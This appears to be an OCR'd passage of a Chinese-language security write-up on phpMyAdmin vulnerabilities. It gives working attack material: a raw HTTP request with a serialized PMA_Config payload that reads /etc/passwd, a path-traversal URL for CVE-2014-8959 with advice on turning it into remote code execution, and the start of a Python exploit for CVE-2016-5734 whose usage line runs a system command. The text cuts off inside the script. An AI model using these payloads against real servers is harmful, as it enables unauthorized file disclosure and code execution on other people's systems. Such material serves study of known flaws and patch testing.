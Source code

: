 ```
POST /scripts/setup.php HTTP/1.1 
Host: your-ip:8080
Accept-Encoding: gzip, deflate Accept: */*
Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trid ent/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded 
Content-Length: 80


action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

### 3.2 CVE-2014 -8959：本地文件包含

影响范围：

```
phpMyAdmin version
	4.0.1~4.2.12
PHP version
	< 5.3.4
```

POC如下：

```
/gis_data_editor.php?token=2941949d3768c57b4342d94ace606e91&gis_data[gis_type]=/../../../../phpinfo.txt%00    # 注意改下token值
```

在实际利用中可以利用写入文件到/tmp目录下结合此漏洞完成RCE，php版本可以通过http header、导出表内容到文件的附加内容看到。

### 3.3 CVE-2016-5734 ：后台命令执行RCE

影响范围：

```
phpMyAdmin version
	4.0.10.16 之前的4.0.x版本
	4.4.15.7 之前的 4.4.x版本
	4.6.3之前的 4.6.x版本

PHP version
	4.3.0~5.4.6
Php 5.0 版本以上的将 preg_replace 的 /e修饰符给废弃掉了
```

POC如下：

```python
#!/usr/bin/env python

"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
"""

import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
```